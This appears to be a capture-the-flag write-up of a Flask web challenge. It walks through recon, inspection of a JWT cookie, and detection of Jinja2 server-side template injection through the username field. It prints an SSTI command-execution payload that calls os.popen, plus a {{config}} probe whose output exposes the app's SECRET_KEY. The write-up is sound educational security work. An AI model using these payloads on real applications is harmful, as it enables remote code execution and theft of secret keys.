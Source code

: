 <img src="https://i.imgur.com/fxBUbKe.png"/>

We get a UUID after registerig an account , so we can login

<img src="https://i.imgur.com/mIIXqN2.png"/>

But we don't see much that we can do something here  , I ran `gobuster` but found nothing much interesting files or directories

<img src="https://i.imgur.com/5kipJWA.png"/>

<img src="https://i.imgur.com/1hdkoAV.png"/>

Seeing the cookies using developer tools we see a JWT token

<img src="https://i.imgur.com/dYWKbRm.png"/>

<img src="https://i.imgur.com/sMxKwDR.png"/>

But this is giving us an error maybe there's something missing JWT or something isn't included properly. I looked into different hackerone reports if there's something that can be done with UUID's being in JWT but all I found was that we can guess UUID but it's a long and tiring process so I did backed out of looking into UUID, I tried testing for Server Side Template Injection (SSTI) , which arises when an application is using a template to render something on the web page for example they will be using a template to display the username by taking the input value into the the template , there are many template engines like ruby template , twig (PHP) , jinja2 (Python) .


This web page is using `jinja2` and the way we can determine is by creating an account with the user name `{{7*'7'}}` which would result to 7777777 else it would result to 49 which would mean that it's using `twig`


<img src="https://i.imgur.com/rYmRkVo.png"/>

<img src="https://i.imgur.com/AIug9Xi.png"/>

I though of doing remote code execution which is possible through `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` , since the character limit for usernmae is only 10 so we can't do it , instead I created a username with `{{config}}` which reveals us some juicy stuff

<img src="https://i.imgur.com/N6WmuB6.png"/>

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
